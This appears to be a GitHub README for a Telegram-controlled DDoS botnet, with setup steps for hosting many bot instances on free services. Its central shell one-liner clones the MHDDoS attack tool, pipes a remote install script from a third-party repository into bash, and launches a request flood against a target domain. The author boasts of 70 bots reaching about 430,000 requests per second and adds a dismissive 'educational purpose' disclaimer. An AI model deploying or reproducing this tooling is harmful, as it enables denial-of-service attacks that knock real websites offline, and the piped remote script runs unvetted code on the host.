 # DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! (I use [GLITCH](https://glitch.com/dashboard) for simple and free host)
<br><br>
## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET example.com 1 100 mhddos_proxy/list 100 5 `
<br>
Now hit the URL of the bot for start (only if your hosting sleep your project in free mode like Glitch), you can also make a bot for start all other bot. 


The installation tutorial is not finished, if you have any problems I can help you.

<br><br>
[+] NEW ! You can now upgrade your requests/s using my [DDOS BOOSTER !](https://github.com/Mehliug-git/DDOS_Booster) It's just a DDOS bot without Telegram, just get a URL and start DDOS !    
<br>
[+] NEW ! : If you just want to test your infrastrucutre open me an Issue and have done this together !!

**In my Botnet I have actually 70 bots, I can go up to ~ 430 000 requests /s**
<br><br>

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.
